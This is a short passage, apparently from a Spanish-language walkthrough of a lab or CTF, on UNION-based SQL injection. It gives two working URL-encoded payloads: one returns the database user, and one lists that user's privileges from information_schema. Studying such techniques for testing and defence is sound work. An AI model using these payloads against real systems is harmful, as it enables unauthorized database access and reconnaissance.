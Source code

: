 ```
'+UNION+SELECT+NULL,NULL,NULL,USER(),NULL--+-
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Ya sabemos el usuario por lo que hay que ver que privilegios tiene.

```
'+UNION+SELECT+NULL,grantee,privilege_type,NULL,NULL+FROM+information_schema.user_privileges+WHERE+grantee%3d"'root'%40'localhost'"--+
```
